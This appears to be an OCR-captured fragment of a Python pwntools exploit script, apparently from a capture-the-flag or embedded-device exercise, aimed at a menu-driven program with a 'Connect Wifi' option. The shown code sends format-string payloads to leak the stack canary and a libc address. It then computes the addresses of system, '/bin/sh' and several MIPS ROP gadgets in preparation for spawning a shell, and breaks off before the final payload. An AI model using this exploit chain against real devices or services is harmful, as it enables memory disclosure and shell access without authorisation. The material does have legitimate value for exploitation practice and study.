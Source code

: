 ````python

# Quit adm menu
print(target.recvuntil(b"#>"))
buf = b'1'
target.sendline(buf)

# Connect Wifi
print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))
payload = b'%19$p' # leak canary
target.sendline(payload)

print("\n\nPerform LEAK CANARY\n\n")
for i in range(4):
    target.recvline()
res = target.recvline()
res = res.decode().split("0 - QUIT\n")[0]
canary = int(res, 16)
print(f'Canary: {hex(canary)}\n')

# Connect Wifi
print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))

payload = b'%69$p' # __libc_start_main
target.sendline(payload)


print("\n\nPerform LEAK LIBC\n\n")
for i in range(2):
    target.recvline()
res = target.recvline()
res = res.decode().split("0 - QUIT\n")[0]
__libc_start_main = int(res, 16)


libc_base_addr = __libc_start_main - libc.symbols['__libc_start_main'] - 200
print(f'LIBC base: {hex(libc_base_addr)}\n')

# Calculate addr
system_addr = libc_base_addr + libc.symbols['system']

# exit = libc.sym['exit']
bin_sh_addr = libc_base_addr + next(libc.search(b'/bin/sh'))

log.info(f"system at : 0x{system_addr:x}")
log.info(f"/bin.sh at : 0x{bin_sh_addr:x}")

ra_ld_s0_s1_jmp_ra_addr = libc_base_addr + ra_ld_s0_s1_jmp_ra
jmp_s1_addr = libc_base_addr + jmp_s1
move_t9_s0_ld_a0_0x38_addr = libc_base_addr + move_t9_s0_ld_a0_0x38

print(target.recvuntil(b"#>"))
buf = b'3'
target.sendline(buf)

print(target.recvuntil(b"#>"))
````
